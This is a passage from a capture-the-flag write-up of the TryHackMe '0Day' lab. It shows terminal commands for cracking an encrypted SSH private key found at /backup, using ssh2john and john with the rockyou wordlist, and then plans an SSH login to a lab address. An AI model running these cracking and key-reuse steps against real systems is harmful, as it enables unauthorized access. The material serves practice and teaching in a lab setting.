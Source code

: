 ~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ zsteg turtle.png                                                                                                                                                                              1 ⨯
[=] nothing :( 
~~~

/backup shows us an encrypted RSA key:

![](attachments/Image03.png)

Cool, could be something! Save key to disk (as id_rsa) and extract hash with ssh2john.py, then bruteforce with john and rockyou.txt
~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ /usr/share/john/ssh2john.py id_rsa > id_rsa.hash

┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ sudo john --wordlist=/opt/rockyou.txt id_rsa.hash                                                                                                                                           127 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxx          (id_rsa)
1g 0:00:00:02 DONE (2020-10-21 20:05) 0.4166g/s 5975Kp/s 5975Kc/s 5975KC/s  0125457423 ..*7¡Vamos!
Session completed
~~~
Nice!  we could use it with `ssh user@10.10.202.169 -i id_rsa`, but what's the username??? 
